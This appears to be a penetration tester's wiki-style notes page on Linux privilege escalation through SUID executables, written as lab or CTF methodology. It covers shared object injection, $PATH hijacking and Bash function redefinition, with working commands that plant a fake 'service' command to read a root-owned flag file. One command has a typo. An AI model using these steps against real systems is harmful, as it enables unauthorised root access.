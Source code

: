 # Privilege Escalation via SUID

---

## What is SUID?

See [[suid|here]].

---

## SUID Privilege Escalation Process

1. Attempt [[suid-for-privesc#SUID Shell Escaping|SUID Shell Escaping]]
2. Attempt [[suid-for-privesc#SUID Exploitation via Shared Object Injection|SUID Exploitation via Shared Object Injection]]

---

## SUID Shell Escaping

Abuse a SUID executable to perform actions as the owning user in order to elevate privileges.

### Process

1. [[suid#Find SUID Files|Find all files configured with the SUID bit]]
2. For each SUID file:
	- Determine if the file can be exploited, based on:
		- Is the file a standard SUID executable?
			- Answer by comparing it to a list of SUID executables for the same operating system version and kinda by its nonexistence on [GTFOBins](https://gtfobins.github.io/)
		- Is the owning user valuable?
		- Can the SUID executable be exploited?
			- Search for a SUID entry on the executable on [GTFOBins](https://gtfobins.github.io/)
			- If it's not on GTFOBins, understand exactly what it's doing and attempt to exploit it manually
				- **Is a command in the SUID executable configured without an absolute path?**
					- [[suid-for-privesc#SUID Exploitation via PATH|SUID exploitation via PATH environment variable]]
				- **Is a command in the SUID executable configured with an absolute path?**
					- [[suid-for-privesc#SUID Exploitation via Bash Function Redefinition|SUID exploitation via bash function redefition]]
				- **Does a command in the SUID executable contain a wildcard (`*`)?**
					- Attempt to abuse [[bash#Wildcard Behavior|bash's wildcard behavior]] to perform an elevated action

---
	
## SUID Exploitation via Shared Object Injection

Executables often import shared object files to use their functionality. Sometimes these shared object files don't exist and the import fails. If you replaced the nonexistent shared object file with your own, you could execute arbitrary code in the context of the owner of the SUID executable.

### Process

1. [[suid#Find SUID Files|Find all files configured with the SUID bit]]
2. For each SUID file:
	- Use [[strace]] to trace the SUID executable's interaction with the kernel, looking specifically for failed shared object file imports

```bash
strace $SUID_EXECUTABLE 2>&1 | grep -i -E "open|access|no such file"
```

3. For each failed shared object file import:
	- Check your permissions on the target file or its directory. If you can replace it:
		- Replace it with a [[so-source|malicious shared object file]]
		- Run the SUID executable, which should load your malicious shared object file

---

## SUID Exploitation via `$PATH`

If a target SUID executable runs a command **without an absolute path**, it will search each directory in the `$PATH` environment variable for the command.

Since [[environment-variables#Inheritance|SUID child processes inherit environment variables]], you could write your own malicious version of the command the SUID executable is attempting to run and then add its directory to the front of the `$PATH` environment variable. Then you could run the SUID executable and it would find your malicious version of the command before the legitimate one and execute it in the security context of the owner of the SUID executable.

### Process

1. [[suid#Find SUID Files|Find all files configured with the SUID bit]]
2. For each **non-standard** SUID file:
	- Anayze the file and determine if it executes a command without an absolute path

	```bash
	$ strings /usr/bin/suid-executable
	/lib64/ld-linux-x86-64.so.2
	5q;Xq
	__gmon_start__
	libc.so.6
	setresgid
	setresuid
	system
	__libc_start_main
	GLIBC_2.2.5
	fff.
	fffff.
	l$ L
	t$(L
	|$0H
	service apache2 start
	```

	- If the executable runs a command without an absolute path:
		- Write your own version of the command to any arbitrary directory
			- You could also write a [[elf-source|malicious ELF]]
		
		```bash
		$ echo '#!/bin/bash' > /home/tgihf/service
		$ echo 'cp /root/flag.txt /dev/shm/tgihf.txt' >> /home/tgihf/service
		$ chmod +x /home/tgihf/service
		```
		
		- Add your version of the command's directory to the front of the `$PATH` environment variable
		
		```bash
		$ export PATH=/home/tgihf:$PATH
		```
		
		- Run the SUID executable, which will run your version of the command in the security context of the SUID executable's owner
		
		```bash
		$ /usr/bin/suid-executable
		$ cat /dev/shm/tgihf.txt
		flag{it-worked!}
		```


---

## SUID Exploitation via Bash Function Redefinition

If a target SUID executable runs a command **with an absolute path**, you can define a malicious Bash function with the same name as the absolute path. Since [[environment-variables#Inheritance|SUID child processes inherit environment variables]], the SUID child process will inherit the function name. Thus, when the SUID executable runs the absolute path, it will actually execute the malicious Bash function you defined.

### Process

1. [[suid#Find SUID Files|Find all files configured with the SUID bit]]
2. For each **non-standard** SUID file:
	- Anayze the file and determine if it executes a command with an absolute path

	```bash
	$ strings /usr/bin/suid-executable
	/lib64/ld-linux-x86-64.so.2
	5q;Xq
	__gmon_start__
	libc.so.6
	setresgid
	setresuid
	system
	__libc_start_main
	GLIBC_2.2.5
	fff.
	fffff.
	l$ L
	t$(L
	|$0H
	/usr/sbin/service apache2 start
	```

	- If the executable runs a command with an absolute path:
		- Define a Bash function with the same name as the absolute path:
		
		```bash
		$ function /usr/sbin/service() { cp /root/flag.txt /dev/shm/tgihf.txt; }
		```
		
		- Export the function
		
		```bash
		$ export export -f /usr/sbin/service
		```
		
		- Run the SUID executable, which will run your malicious Bash function
		
		```bash
		$ /usr/bin/suid-executable
		$ cat /dev/shm/tgihf.txt
		flag{it-worked!}
		```
